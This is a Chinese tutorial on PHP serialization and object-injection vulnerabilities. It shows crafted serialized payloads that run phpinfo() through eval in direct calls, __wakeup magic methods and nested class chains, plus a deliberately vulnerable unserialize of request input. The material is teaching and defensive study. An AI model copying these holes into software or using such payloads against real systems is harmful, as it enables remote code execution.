

# 序列化与反序列化
## 目的和意义
> 序列化：把对象转换为字节序列的过程。
> 反序列化：把字节序列恢复为对象的过程。
  
其目的是为了将一个对象通过可保存的字节方式存储起来  
这样就可以将学列化字节存储到数据库或者文本当中，当需要的时候再通过反序列化获取  
  
## 类的序列化
在反序列化对象之后，需要当前作用域中存在该类的定义，否则php无法将类对应到指定类  
```php
$ser = 'O:6:"kingkk":1:{s:4:"test";s:3:"123";}';
print_r(unserialize($ser));
```
运行结果:
```php
__PHP_Incomplete_Class Object
(
    [__PHP_Incomplete_Class_Name] => kingkk
    [test] => 123
)
```
可以看到，当定义域中不存在该类时会反序列化出一个`__PHP_Incomplete_Class`的类，也就是一个不完整的类
  
其次，在反序列化的过程中，只保存原有类的变量值，并不会保存其函数  
具体的函数功能是根据定义域中定义好的函数功能来执行  
```php
class cls{
	var $value = 'kingkk';
	function action(){
		echo 'action…';
	}
}
$a = new cls();
print_r($a);
print_r(serialize($a));
```
运行结果：
```php
cls Object
(
    [value] => kingkk
)
O:3:"cls":1:{s:5:"value";s:6:"kingkk";}
```
可以看到字节码中仅保留了变量的相关信息，并没有保存函数的定义  
具体的函数要根据定义域中声明的函数功能来执行   
  
最后，当一个类中的变量是另一个类时，会将另一个类也序列化到当前类中  
```php
class cls1{
	function __construct(){
		$this->cls = new cls2();
	}
}
class cls2{
	var $value = 'cls2';
}
$a = new cls1();
print_r($a);
print_r(serialize($a));
```
运行结果：
```php
cls1 Object
(
    [cls] => cls2 Object
        (
            [value] => cls2
        )

)
O:4:"cls1":1:{s:3:"cls";O:4:"cls2":1:{s:5:"value";s:4:"cls2";}}
```
# 魔术方法(Magic function)
魔术方法是一种类中的特殊方法，在通常通过语法糖的形式自动调用  
所以当使用了一些语法糖时，会触发这些函数，从而无意间执行了该函数  
  
搬运来的一些魔术方法
```php
__construct() //对象创建时触发
__wakeup() //使用unserialize时触发
__sleep() //使用serialize时触发
__destruct() //对象被销毁时触发
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__toString() //把类当作字符串使用时触发
__invoke() //当脚本尝试将对象调用为函数时触发
```

# 漏洞利用
## 直接调用
恰巧类中危险函数在后面存在被调用，就可以控制当前类中的变量，导致漏洞触发
```php
class cls{
	var $value = 'echo 123;';
	function action(){
		eval($this->value);
	}
}
$a = unserialize('O:3:"cls":1:{s:5:"value";s:10:"phpinfo();";}');
$a->action();
```
运行结果：
```php
phpinfo()
PHP Version => 5.5.12

System => Windows NT DESKTOP-S9PSGAM 6.2 build 9200 (Windows 8 Business Edition) AMD64
Build Date => Apr 30 2014 11:15:47
Compiler => MSVC11 (Visual C++ 2012)
……
```

## 当危险函数在魔术方法中时
当不存在方法的直接调用时，可以查看一些魔术方法中是否存在危险的函数  
因为魔术方法大多在无意间被触发  

不同魔术方法的触发条件不一样，这里我拿最简单的`__wakeup`来介绍
```php
class cls{
	var $value = 'echo 123;';
	function __wakeup(){
		eval($this->value);
	}
}
$a = unserialize('O:3:"cls":1:{s:5:"value";s:10:"phpinfo();";}');
```
运行结果：
```php
phpinfo()
PHP Version => 5.5.12

System => Windows NT DESKTOP-S9PSGAM 6.2 build 9200 (Windows 8 Business Edition) AMD64
Build Date => Apr 30 2014 11:15:47
Compiler => MSVC11 (Visual C++ 2012)
……
```
虽然没有显式的调用函数，但是在反序列化过程中，就无意间触发了魔术方法，从而导致漏洞的产生  
  
## 当危险函数在别的类中被调用
当一个类中的成员变量是另一个类，且调用了另一个类中的危险函数  
此时就可以序列化前者类，从而触发触发漏洞
```php
class cls1{
	var $ser;
	function __construct(){
		$ser = new ser2();
	}

	function __wakeup(){
		$this->ser->evil();
	}
}

class cls2{
	var $value = "echo 123;";
	function evil(){
		eval($this->value);
	}

}
$cls = $GET['cls'];
$instance = unserialize($cls);
```
此时我们可以构造这样的类,来获取其反序列化字节
```php
class cls1{
	var $ser;
	function __construct(){
		$this->ser = new cls2();
	}
}

class cls2{
	var $value = 'phpinfo();';
}

print_r(serialize(new cls1()))
```
```php
O:4:"cls1":1:{s:3:"ser";O:4:"cls2":1:{s:5:"value";s:10:"phpinfo();";}}
```
传入`$GET['cls']`中既可以触发漏洞


# 其他编程语言中的反序列化
其他编程语言也存在对应的序列化和反序列化功能  
触发的原理类似  

Python：
```py
pickle.dump(obj, file, protocol=None, *, fix_imports=True) # 序列化

pickle.load(file, *, fix_imports=True, encoding='ASCII', errors='strict') #反序列化
```
  
Java:
java不是很了解，引用一下别人的
> 在Java中，只要一个类实现了java.io.Serializable接口，那么它就可以被序列化。
> 通过ObjectOutputStream和ObjectInputStream对对象进行序列化及反序列化


# Reference Link
https://chybeta.github.io/2017/06/17/%E6%B5%85%E8%B0%88php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/
https://www.hackersb.cn/shenji/239.html